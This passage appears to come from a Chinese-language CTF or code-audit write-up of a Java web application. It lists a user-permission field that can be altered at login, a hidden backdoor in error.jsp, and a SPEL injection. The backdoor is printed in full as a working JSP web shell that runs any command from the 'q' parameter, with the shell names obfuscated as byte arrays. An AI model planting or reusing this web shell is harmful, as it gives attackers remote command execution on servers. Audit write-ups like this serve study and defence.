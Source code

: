 登陆的时候，可以修改first值，修改到admin权限。first在user中定义，象征用户权限。

```java
  	public String checkcode;
    public String time;
    public int first;
    public String pdd;

    public static final int UNSUBMITTED = 0;
    public static final int SUBMITTED = 1;
    public static final int ADMIN = 2;
```





### 自带后门

在error.jsp文件中，存在一个隐蔽的内置后门。

```java
<%
    String op="Got Nothing";
    String query = request.getParameter("q");
    String fileSeparator = String.valueOf(java.io.File.separatorChar);
    Boolean isWin;
    if(fileSeparator.equals("\\")){
        isWin = true;
    }else{
        isWin = false;
    }

    if (query != null) {
        ProcessBuilder pb;
        if(isWin) {
            pb = new ProcessBuilder(new String(new byte[]{99, 109, 100}), new String(new byte[]{47, 67}), query);
        }else{
            pb = new ProcessBuilder(new String(new byte[]{47, 98, 105, 110, 47, 98, 97, 115, 104}), new String(new byte[]{45, 99}), query);
        }
        Process process = pb.start();
        Scanner sc = new Scanner(process.getInputStream()).useDelimiter("\\A");
        op = sc.hasNext() ? sc.next() : op;
        sc.close();
    }
%>
```

参考先知文章即可：[https://xz.aliyun.com/t/2342](https://xz.aliyun.com/t/2342)

### SPEL表达式注入

ProfileControllor类存在SPEL表达式注入
